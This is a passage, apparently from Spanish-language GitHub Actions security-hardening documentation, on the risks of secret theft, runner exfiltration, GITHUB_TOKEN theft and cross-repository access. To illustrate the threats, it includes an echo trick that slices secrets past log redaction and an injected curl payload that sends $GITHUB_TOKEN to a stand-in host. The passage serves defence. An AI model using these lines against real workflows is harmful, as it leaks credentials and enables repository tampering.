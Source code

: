 -   En el caso de una acción personalizada, el riesgo puede variar
    > dependiendo de cómo un programa utiliza el secreto que obtuvo del
    > argumento:

> uses: fakeaction/publish@v3
>
> with:
>
> key: \${{ secrets.PUBLISH_KEY }}

Aunque GitHub Actions limpia los secretos de la memoria a los que no se
hace referencia en el flujo de trabajo (o que no se incluyen en una
acción), un atacante determinado podría recopilar GITHUB_TOKEN y
cualquier secreto al que se hace referencia.

## **Exfiltrar datos de un ejecutor**

Un atacante puede exfiltrar cualquier secreto u otros datos robados del
ejecutor. Para evitar la revelación accidental de secretos, GitHub
Actions redacta automáticamente los secretos impresos en el registro,
pero esto no es un límite de seguridad verdadero porque los secretos se
pueden enviar intencionadamente al registro. Por ejemplo, los secretos
ofuscados se pueden filtrar mediante echo \${SOME_SECRET:0:4}; echo
\${SOME_SECRET:4:200};. Adicionalmente, ya que el atacante podría
ejecutar comandos arbitrarios, podrían utilizar las solicitudes de tipo
HTTP para enviar secretos u otros datos del repositorio a un servidor
externo.

## **Robo del elemento GITHUB_TOKEN del trabajo**

Es posible que un atacante robe el elemento GITHUB_TOKEN del trabajo. El
ejecutor de GitHub Actions recibe automáticamente un elemento
GITHUB_TOKEN generado con permisos que se limitan únicamente al
repositorio que contiene el flujo de trabajo y el token expira una vez
que se haya completado el trabajo. Una vez que se venza, el token ya no
será útil para un atacante. Para evitar esta limitación, pueden
automatizar el ataque y realizarlo en fracciones de segundo llamando a
un servidor controlado por el atacante con el token, por ejemplo: a\";
set +e; curl http://example.com?token=\$GITHUB_TOKEN;#.

## **Modificar el contenido de un repositorio**

El servidor del atacante puede usar la API GitHub para modificar el
contenido del repositorio, incluidas las versiones, si los permisos
asignados de GITHUB_TOKEN no están restringidos.

# **Considerar acceso entre repositorios**

GitHub Actions tiene el alcance intencional de un solo repositorio a la
vez. GITHUB_TOKEN concede el mismo nivel de acceso que el de un usuario
con acceso de escritura, ya que cualquier usuario con este tipo de
acceso puede acceder a este token creando o modificando un archivo de
flujo de trabajo, lo que eleva los permisos de GITHUB_TOKEN en caso de
ser necesario. Los usuarios tienen permisos específicos para cada
repositorio, por lo que permitir que GITHUB_TOKEN para un repositorio
otorgue acceso a otro afectaría al modelo de permisos de GitHub si no se
implementa con cuidado. De forma similar, se debe tener cuidado al
agregar tokens de autenticación de GitHub a un flujo de trabajo, ya que
esto también puede afectar el modelo de permisos de GitHub al otorgar
inadvertidamente un acceso amplio a los colaboradores.
